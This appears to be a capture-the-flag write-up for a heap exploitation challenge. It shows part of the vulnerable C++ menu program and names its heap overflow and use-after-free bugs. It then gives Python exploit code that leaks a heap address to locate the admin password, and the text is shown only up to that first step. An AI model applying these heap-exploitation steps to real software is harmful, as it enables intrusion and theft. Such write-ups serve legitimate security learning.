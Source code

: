 ```cpp=
               "3. del_user\n"
               "4. show_users\n"
               "5. bye\n"
               "> ");
        read(0, opt, 2);

        switch (opt[0]) {
        case '1': add_user(); break;
        case '2': edit_data(); break;
        case '3': del_user(); break;
        case '4': show_users(); break;
        case '5': exit(0);
        }
    }
    printf("No... no power..., b..ye...\n");
    
    return 0;
}
```
:::
### Something wrong
* Heap overflow
* Used after free(UAF)
* Note that, flag 1 is admin password, flag 2 is at `/home/chal/`


## Exploit
### Hard solution - leak heap base address + heap overflow
If we can use heap overflow to overlap the `user k`'s `*data`, then we can let it point to admin's password and use `show_users()` to print it out
1. leak admin password address
It's very straight forward, if we delete two user, user 2 first and then user 1, at the same time, the `fd` of user 1 will point to the data of user 2. Then we can use `show_user()` to leak the address and try to find `admin_pass_addr` by minus offset
    ```python!
    edit_data(0, 0x8, b'a')    # Must add this line to use heap overflow
    add_user(1, b'a'*8, b'aaaa')
    edit_data(1, 0x20, b'a')
    add_user(2, b'b'*8, b'bbbb')
    del_user(2)
    del_user(1)
    show_user()
    r.recvuntil(b'[1] ')
    r.recvuntil(b'data: ')
    admin_pass_addr = u64(r.recv(6).ljust(8, b'\x00')) - 0xa0
    print(hex(admin_pass_addr))
    ```
    ![](https://imgur.com/ZicILFr.png)
